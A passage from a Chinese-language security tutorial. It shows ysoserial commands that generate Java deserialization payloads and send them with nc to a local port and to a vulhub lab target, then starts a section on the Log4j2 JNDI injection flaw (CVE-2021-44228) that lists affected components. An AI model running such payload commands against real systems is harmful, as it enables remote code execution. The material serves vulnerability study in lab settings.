 就是这样。

（3）漏洞利用

>  本地环境漏洞利用：

```
java -jar ysoserial-all.jar CommonsCollections3 calc >> payload.bin
cat payload.bin | nc 127.0.0.1 8888
```

> vulhub靶场环境，使用工具ysoserial

```
java -jar ysoserial-all.jar CommonsCollections5 "touch /tmp/success" | nc 192.168.1.189 4712

```

![image-20230712163753249](img/image-20230712163753249.png)

![image-20230712163807743](img/image-20230712163807743.png)



### 2.2 Log4j2 JNDI注入漏洞（CVE-2021-44228）

（1）漏洞介绍

漏洞影响版本为2.0~2.14.1。

2021 年 11 月 24 日，阿里云安全团队向 Apache 官方报告了 Apache Log4j2 远程代码执行漏洞，在 12 月 9 日被国外有人公开 POC，从而导致了一波安全从业人员的疯狂运动，甲方安全从业者加班加点修复漏洞；白帽子们疯狂扫描漏洞并提交 SRC，一度导致一些 SRC 发布公告暂停接收相关漏洞；而黑灰产们已经在自己的挖矿勒索武器库上增加了该漏洞的利用模块。为什么会这么疯狂？

漏洞触发及其简单，攻击者可直接构造恶意请求，触发远程代码执行漏洞。漏洞利用无需特殊配置

```
漏洞刚爆出时受影响的组件：
Spring-Boot-strater-log4j2
Apache Struts2
Apache Solr
Apache Flink
Apache Druid
ElasticSearch
Flume
Dubbo
Redis
Logstash
Kafka
vmvare
```
